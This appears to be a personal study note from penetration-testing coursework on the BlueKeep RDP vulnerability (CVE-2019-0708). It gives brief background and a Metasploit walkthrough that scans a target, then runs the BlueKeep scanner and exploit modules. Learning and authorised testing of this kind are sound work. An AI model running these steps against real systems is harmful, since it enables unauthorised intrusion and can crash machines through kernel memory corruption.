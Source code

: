 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
tools: "[[Metasploit]]"
---
```


# Exploiting Windows BlueKeep RDP Vulnerability

## BlueKeep CVE-2019-0708

- Name given to an RDP vulns in Windows
- Made public by Microsoft in May 2019
- It permits access a chunk of kernel memory allowing code execution
- 1 million system vulnerable at time of discovery
- RDP needs to be enable

- Many exploits are malicious
- Metasploit has a module to detect and exploit this vuln
- Targeting kernel memory can cause crashes!

## Demonstration

```bash
nmap $TRG
```

```bash
# detect vuln
> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
> set RHOSTS $TRG
# exploit vuln
> use exploit/windows/rdp/cve_2019_0708_bluekeep
> set RHOSTS $TRG
# target conf has to be specified
> show targets
# may be necessary to decrease grooming sizes
```
